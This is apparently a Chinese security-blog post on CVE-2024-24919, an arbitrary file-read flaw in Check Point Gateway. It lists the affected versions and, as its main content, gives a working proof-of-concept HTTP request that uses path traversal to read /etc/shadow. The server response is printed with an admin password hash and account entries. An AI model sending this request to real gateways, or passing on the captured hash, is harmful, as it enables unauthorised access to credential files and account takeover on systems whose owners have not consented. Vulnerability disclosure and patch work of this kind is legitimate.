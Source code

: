 #  CVE-2024-24919｜CheckPoint Gateway任意文件读取漏洞（POC）   
alicy  信安百科   2024-05-30 18:27  
  
**0x00 前言**  
  
  
Check Point Software Technologies Ltd. (www.checkpoint.com.cn) 是全球领先的政府与企业网络安全供应商。   
其解决方案对恶意软件、勒索软件和其他类型攻击的捕获率均为业界领先，可保护客户免受第五代网络攻击威胁。   
  
  
Check Point 提供“Infinity”全面保护多层次安全架构，采用第五代高级威胁防护技术，能够守护企业云端、网络和移动设备中存有的信息。   
  
  
Check Point 还拥有最为全面和直观的单点控制安全管理系统。Check Point 为 10 万余家大小组织提供安全保护。  
  
  
  
**0x01 漏洞描述**  
  
  
Check Point Gateway  任意文件读取漏洞，远程攻击者通过构造恶意请求读取服务器上的任意文件，造成敏感信息泄露。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-24919  
  
  
  
**0x03 影响版本**  
  
  
R77.20 (EOL)  
  
R77.30 (EOL)  
  
R80.10 (EOL)  
  
R80.20 (EOL)  
  
R80.20.x  
  
R80.20SP (EOL)  
  
R80.30 (EOL)  
  
R80.30SP (EOL)  
  
R80.40 (EOL)  
  
R81  
  
R81.10  
  
R81.10.x  
  
R81.20  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
```
POST /clients/MyCRL HTTP/1.1
Host: xxx.xx.xx
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```  
  
```
HTTP/1.0 200 OK
Date: Thu, 30 May 2024 01:38:29 GMT
Server: Check Point SVN foundation
Content-Type: text/html
X-UA-Compatible: IE=EmulateIE7
Connection: close
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=31536000; includeSubDomains
Content-Length: 505

admin:$6$rounds=10000$N2We3dls$xVq34E9omWI6CJfTXf.4tO51T8Y1zy2K9MzJ9zv.jOjD9wNxG7TBlQ65j992Ovs.jDo1V9zmPzbct5PiR5aJm0:19872:0:99999:8:::
monitor:*:19872:0:99999:8:::
root:*:19872:0:99999:7:::
nobody:*:19872:0:99999:7:::
postfix:*:19872:0:99999:7:::
rpm:!!:19872:0:99999:7:::
shutdown:*:19872:0:99999:7:::
pcap:!!:19872:0:99999:7:::
halt:*:19872:0:99999:7:::
cp_postgres:*:19872:0:99999:7:::
cpep_user:*:19872:0:99999:7:::
vcsa:!!:19872:0:99999:7:::
_nonlocl:*:19872:0:99999:7:::
sshd:*:19872:0:99999:7:::
```  
  
  
  
**0x05 参考链接**  
  
  
https://support.checkpoint.com/results/sk/sk182336  
  
  
https://github.com/c3rrberu5/CVE-2024-24919  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-21683｜Atlassian Confluence远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485351&idx=2&sn=0adc42b4d60e706882552cdd8c61db21&chksm=cea96e7ef9dee7686226667380cede00bff25f0cfbeb37361ea7e4d10ef65d4c526ba54168f8&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-22120｜Zabbix Server SQL注入漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485330&idx=1&sn=bb73073b980cf1d08521894426b87ce3&chksm=cea96e4bf9dee75dd070ad646a83523babf954302a232d0291b9ca3db7783e13e9db60d449ef&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-27130｜QNAP 存在未经身份验证的RCE漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485311&idx=1&sn=b1a169294dbb58cd7913d36bbf9f3f0c&chksm=cea96ea6f9dee7b09457245369acda315d405d226749cf4e786c10f038806cb4e660599d0e2e&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
